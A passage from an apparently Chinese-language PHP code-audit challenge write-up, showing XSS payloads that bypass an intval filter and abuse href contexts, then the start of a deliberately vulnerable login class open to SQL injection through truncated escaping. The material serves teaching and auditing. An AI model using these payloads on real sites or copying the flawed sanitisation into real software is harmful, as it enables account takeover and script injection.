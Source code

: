 如果直接提交

```
'onmouseover=alert(1)
'onclick=alert(1)
```

显然是不行的，`alert(1)` 将被 `intval` 掉，这时候可以将等号编码为 `%3D` 然后再加个等号

```php
'onmouseover%3Dalert(1)//=1
'onclick%3Dalert(1)//=1

// $_GET
Array (
	['onmouseover=alert(1)//] => 1
    ['onclick=alert(1)//] => 1
)
```

最终形成的 `payload`

```html
<a href='/images/size.php?'onmouseover=alert(1)//=1'>link</a>
<a href='/images/size.php?'onclick=alert(1)//=1'>link</a> 
```

如果可控点在 `href`

```html
<a href=javascript:alert(1)>
<a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==>
<a href=data:text/html;%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e>
```



## 13 - Turkey Baster

> 截断惹的祸

```php
class LoginManager {
    private $em;
    private $user;
    private $password;

    public function __construct($user, $password) {
        $this->em = DoctrineManager::getEntityManager();
        $this->user = $user;
        $this->password = $password;
    }

    public function isValid() {
        $user = $this->sanitizeInput($this->user);
        $pass = $this->sanitizeInput($this->password);

        $queryBuilder = $this->em->createQueryBuilder()
            ->select("COUNT(p)")
            ->from("User", "u")
            ->where("user = '$user' AND password = '$pass'");
        $query = $queryBuilder->getQuery();
        return boolval($query->getSingleScalarResult());
    }

    public function sanitizeInput($input, $length = 20) {
        $input = addslashes($input);
        if (strlen($input) > $length) {
            $input = substr($input, 0, $length);
        }
```